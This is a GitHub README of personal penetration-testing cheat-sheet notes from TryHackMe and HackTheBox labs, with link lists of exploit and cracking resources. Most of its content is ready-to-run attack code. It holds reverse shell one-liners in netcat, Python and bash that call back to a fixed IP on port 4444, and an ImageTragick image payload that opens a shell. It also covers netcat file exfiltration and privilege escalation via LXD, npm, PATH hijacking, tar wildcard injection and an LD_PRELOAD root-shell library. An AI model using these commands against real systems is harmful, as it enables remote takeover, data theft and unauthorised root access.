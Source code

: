 # HackNotes

This repository contains my personal notes and tricks that I've gathered while working on various machines in the TryHackMe and HackTheBxo platforms. These notes serve as a guide for penetration testing and help me document my progress and findings.

Please note that these notes are a work in progress, and I'll be continuously adding more content as I progress through the challenges and machines.

## Introduction
In this repository, you will find a compilation of various tricks, commands, and techniques that can be useful during penetration testing activities. These notes are intended to assist in the process of hacking and securing systems.

### [notes](./other/notes.md)
### [web](./other/web.md)
### [osint](./other/osint.md)
---
#### Reverse shells
```nc
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.22.27 4444 >/tmp/f
```
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.22.27",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.22.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```
```bash
bash -i >& /dev/tcp/10.18.22.27/4444 0>&1
```
<details><summary>CVE-2016–3714</summary>

```
cat > image.png << EOF
push graphic-context
encoding "UTF-8"
viewbox 0 0 1 1
affine 1 0 0 1 0 0
push graphic-context
image Over 0,0 1,1 '|/bin/bash -i > /dev/tcp/10.8.50.72/4444 0<&1 2>&1'
pop graphic-context
pop graphic-context
EOF
```
</details>

---
#### File Transfer on `Netcat`

1. To download a file on the remote shell:
```nc
nc ATTACKER_IP ATTACKER_PORT < [file_to_download]
```
2. To receive the file on the attacker machine:
```nc
nc -l ATTACKER_PORT > [output_file_path]
```
#### Transfer files using `scp`:
```
scp backup.zip toor@192.168.122.30:/home/username_of_remote_host
```

---
### Linux Privilege Escalation:
<details><summary> LXD container exploitation </summary> 

```bash
wget archive
lxc image import ./archive --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true # If not working, use FINGERPRINT
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```
</details>
<details><summary> with doas </summary>

```bash
doas -u root openssl enc -in file
doas -u root /bin/bash
```
</details>
<details><summary> with npm -u </summary>

```bash
mkdir ~/tmp
echo '{"scripts": {"preinstall": "/bin/sh"}}' > ~/tmp/package.json
sudo -u serv-manage /usr/bin/npm -C ~/tmp/ --unsafe-perm i
```
</details>

<details><summary>PATH</summary>

```bash
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
./app_that_calls_curl
```

</details>

<details><summary>tar</summary>

```bash
cat > /home/andre/backup/rev << EOF
#!/bin/bash
rm /tmp/f
mkfifo /tmp/f
cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.22.27 4444 >/tmp/f
EOF
echo "" > "/home/andre/backup/--checkpoint=1"
echo "" > "/home/andre/backup/--checkpoint-action=exec=sh rev"
chmod +x rev
```
</details>

<details><summary>env_keep += LD_PRELOAD</summary>

```
cd /tmp
cat > shell.c << EOF
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
EOF
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
sudo LD_PRELOAD=/tmp/shell.so /usr/bin/sky_backup_utility
```

</details>

#### information gathering
```bash
cat /proc/version
cat /etc/issue
cat /etc/sudoers
ps aux | grep cron
ps
env
ip route
uname -a
netstat # -at -l -t -tp -i
netstat -tupln | grep LISTEN
ss -atur
find / -writable 2>/dev/null
find / -mtime 10 #find files that were modified in the last 10 days
find . -name flag.txt
find / -type d -name config #find the directory named config under “/”
find / -type f -user <user> 2>/dev/null #find files owned by user
find / -type f -perm /4000 2>/dev/null
find / -type f -group <group> -exec ls -l {} + 2>/dev/null
getcap -r / 2>/dev/null
cat /etc/exports #file sharing
nmap --script=vuln <ip>
cat /proc/1/cgroup #if u in docker
```
quik one-line bash script with colorful output to enumerate linux machine
```bash
for cmd in "history" "id" "echo $PATH" "cat /etc/crontab" "sudo -V " "cat /proc/version" "cat /etc/issue" "cat /etc/sudoers" "cat /etc/sudoers.d" "env" "ip route" "uname -a" "netstat -tupln | grep LISTEN" "find / -type f -perm /4000 2>/dev/null" "getcap -r / 2>/dev/null" "cat /etc/exports" "cat /proc/1/cgroup"; do echo  "\n\033[1;34mCommand: $cmd\033[0m"; echo "\033[1;32m$(eval $cmd)\033[0m"; echo  "\033[1;33m\n===================================================================================================\n==================================================================================================="; done
```

<details><summary> links </summary>

* [linPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [linEnum](https://github.com/rebootuser/LinEnum)
* [LES](https://github.com/mzet-/linux-exploit-suggester)
* [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
* [linux Priv Checker](https://github.com/linted/linuxprivchecker)
* [Linux Kernel CVEs](https://www.linuxkernelcves.com/cves)
* [GTFOBins (unix)](https://gtfobins.github.io/)
* [g0tmi1k priv esc linux](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
* [linux backdoors](/other/src/linux_backdoors.md)

</details>

---

[windows](./other/windows.md)

---

### links
* [database with CVE exploits](https://cvexploits.io/)
* [explainshell.com](https://explainshell.com/)
* [reverse shells](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
* [rapid7](https://www.rapid7.com/)
* [attackerkb](https://attackerkb.com/)
* [cve.mitre.org](https://cve.mitre.org/cve/)
* [exploit-db](https://www.exploit-db.com/)
* [WTFBINS (cve)](https://wtfbins.wtf/)
* [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/)
* [bash cheatsheet](https://devhints.io/bash)
* [enumeration guide](https://github.com/beyondtheoryio/Enumeration-Guide)
* [tmpfiles](https://tmpfiles.org/)
* [pentest-checklist](https://github.com/Hari-prasaanth/Web-App-Pentest-Checklist)
* [awesome ctf](https://github.com/apsdehal/awesome-ctf)

####  Encoding techniques:
- [splitbrain](https://www.splitbrain.org/_static/ook/)
- [hashes](https://hashes.com/en/tools/hash_identifier)
- [md5hashing](https://md5hashing.net/hash)
- [cyberchef](https://gchq.github.io/CyberChef/)
- [free pass hash cracker](https://crackstation.net/)
- [crack station](https://crackstation.net/)
- [md5decrypt.net](https://md5decrypt.net/en/)
- [vigenere brute force](https://www.guballa.de/vigenere-solver)
- [html enteties](https://www.webatic.com/html-entities-convertor)
- [list of signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)
- [xxs-encoder](http://evuln.com/tools/xss-encoder/)

#### Tools
* [reconftw](https://github.com/six2dez/reconftw)
* [google dorks](/HackNotes/other/src/dorks.md)
* [aquatone](https://github.com/michenriksen/aquatone/releases/tag/v1.7.0)(screenshots)
* [nuclei](https://github.com/projectdiscovery/nuclei)(scan for vulns)
* [meg](https://github.com/tomnomnom/meg)(fetch many paths for many hosts)
* [arjun](https://github.com/s0md3v/Arjun)(http param discovery)
* [dalfox](https://github.com/hahwul/dalfox)(find xxs)
* [cdncheck](https://github.com/projectdiscovery/cdncheck)(identifying the technology associated with dns)
* [XXSHunter](https://xsshunter.trufflesecurity.com/app/#/)

 [other links](/HackNotes/other/src/links.md)

---
Happy hacking!
